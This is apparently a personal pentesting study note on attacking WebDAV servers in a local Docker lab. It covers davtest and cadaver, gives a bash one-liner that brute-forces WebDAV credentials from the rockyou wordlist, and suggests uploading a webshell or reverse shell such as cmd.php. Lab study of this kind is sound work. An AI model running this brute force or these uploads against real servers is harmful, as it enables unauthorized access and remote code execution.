 # What is a WebDAV

**Web Distributed Authoring and Versioning**
Is a protocol that allow you to save files, modified or shared in a web server

---

![](../../Images/Pasted%20image%2020230828172100.png)

If you realiza a whatweb, you can see the WWW-Authenticate
![](../../Images/Pasted%20image%2020230828174035.png)

We can use [davtest](../../Tools/davtest.md), this tool is used when we found creds to upload many files with php extensions, jsp...

And they say what files can execute (this is util to upload a webshell or reverse shell...)

````bash
davtest -url http://127.0.0.1 -auth admin:admin 2>&1
````

We are going to convert stder to stdout to filter by this.

To check what is the correct password we can use this **oneliner** to bruteforce the password:

````bash
 cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "La contraseña correcta es $password"; break; fi; done
````

This is very slow, you can play with threads.

There are other tool that is named [cadaver](../../Tools/cadaver.md)

````bash
cadaver http://127.0.0.1
````

This request you the user and password and is like an **ftp interactive session**

You can upload files and will be interpreted (you can upload a reverse shell)

> localhost/pwned/cmd.php

or

> localhost/cmd.php

----
# Labs

- docker pull bytemark/webdav


---

# Tags

#vulnerabilty #webdav